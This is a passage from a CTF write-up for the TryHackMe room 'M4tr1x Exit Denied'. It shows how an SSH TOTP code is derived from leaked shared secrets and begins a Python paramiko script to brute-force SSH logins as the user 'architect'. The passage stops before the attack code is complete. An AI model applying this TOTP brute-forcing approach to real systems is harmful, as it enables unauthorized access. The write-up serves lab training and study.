 ```py
    print('---------------------------------')
    print('Virtual Time Simulator Alpha 1.5 ')
    print('---------------------------------')
    print('     Updates every minute:       ')
    print('---------------------------------')
    TimeSet('Ukraine', 4, 43, 0)
    print('\n')

    TimeSet('Germany', 13, 55, 0)
    print('\n')

    TimeSet('England', 9, 19, 0)
    print('\n')
    
    TimeSet('Nigeria', 1, 6, 0)
    print('\n')
    
    TimeSet('Denmark', -5, 18, 0)
    
    # keep checking every second - for each passing minute, change OTP code
    time.sleep(1)
    subprocess.call("clear")
```

That's look very complex to me...

In `testing.png`, we found a username called `architect`. However, the authenication method is TOTP.

**In `Low-Level SSH-TOTP Diagram.png`, the SSH OTP code is computed via:**

- **${CTT} = ({CA} \times {CB} \times {CC})$**:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/M4tr1x-Exit-Denied/images/Pasted%20image%2020230126152914.png)

- Then, **${UC} = {CTT} \oplus {SST}$**:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/M4tr1x-Exit-Denied/images/Pasted%20image%2020230126153017.png)

- Finally compute **${UC} \to {HC} \to {T} \to {OTP}$**:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/M4tr1x-Exit-Denied/images/Pasted%20image%2020230126153132.png)

Armed with above information, if we know the SST, we can SSH into user `architect`!

Luckly, the `testing.png` leaked 3 SSTs!

**Now, we can modify the `timeSimulatorClient.py` to brute force the SSH!**
```py
from datetime import datetime, timedelta
from hashlib import sha256
import random
from paramiko import SSHClient, AutoAddPolicy, AuthenticationException, ssh_exception
import os
import ntplib

class TimeSimulatorClient:
    def __init__(self, sharedSecret1, sharedSecret2, sharedSecret3, targetIPAdress):
        self.sharedSecret1 = sharedSecret1
        self.sharedSecret2 = sharedSecret2
        self.sharedSecret3 = sharedSecret3
        self.targetIPAdress = targetIPAdress
        self.listSecret = [sharedSecret1, sharedSecret2, sharedSecret3]

    def setTimeZone(self):
        try:
            print('[*] Setting timezone to UTC')
```